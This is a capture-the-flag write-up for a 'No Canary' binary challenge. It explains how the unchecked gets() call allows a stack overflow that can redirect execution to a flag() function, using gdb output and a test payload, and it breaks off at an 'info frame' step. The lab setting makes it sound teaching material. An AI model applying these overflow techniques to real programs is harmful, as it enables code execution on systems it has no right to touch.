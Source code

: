 
### Description
> **Agriculture is the most healthful, most useful and most noble employment of man.<br>
> —George Washington<br><br>
> Can you call the flag function in this [program](No%20Canary/no_canary) ([source](No%20Canary/no_canary.c))? Try it out on the shell server at /problems/2020/no_canary or by connecting with nc shell.actf.co 20700.**

> *Hint: What's dangerous about the gets function?*

### solution

The answer for the hint is simple .. It's "overflow"! .. gets function doesn't restrict the user input length and hence we can make an overflow given the address of flag() function to read the flag.txt!

So to get the address of flag() function we will use gdb
```java
(gdb) set disassembly-flavor intel
(gdb) info func
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  setresgid@plt
0x0000000000401050  system@plt
0x0000000000401060  printf@plt
0x0000000000401070  gets@plt
0x0000000000401080  getegid@plt
0x0000000000401090  setvbuf@plt
0x00000000004010a0  _start
0x00000000004010d0  _dl_relocate_static_pie
0x00000000004010e0  deregister_tm_clones
0x0000000000401110  register_tm_clones
0x0000000000401150  __do_global_dtors_aux
0x0000000000401180  frame_dummy
0x0000000000401186  flag
0x0000000000401199  main
0x00000000004012e0  __libc_csu_init
0x0000000000401350  __libc_csu_fini
0x0000000000401358  _fini
```

Nice! we got the address **0x00401186** .. Now we know that name variable is of size 20 so we need a payload > 20 to reach to rip register and put the address of flag() function in there.

We need to see the main function:
```java
(gdb) disas main
   .
   .
   0x00000000004012ba <+289>:	call   0x401070 <gets@plt>
   0x00000000004012bf <+294>:	lea    rax,[rbp-0x20]
   .
   .
```
And then setting a breakpoint at **0x004012bf** right after call gets() function instruction:
```java
(gdb) b *0x004012bf
```
We'll run the program using a payload of 20 "A"s letter:
```java
(gdb) r <<< $(python -c "print 'A' * 20")
```
Now we hit the breakpoint, We also need to know the saved rip register value so we can detect it on the stack and optimize our payload to target it:
```java
(gdb) info frame
Stack level 0, frame at 0x7fffffffe590:
```
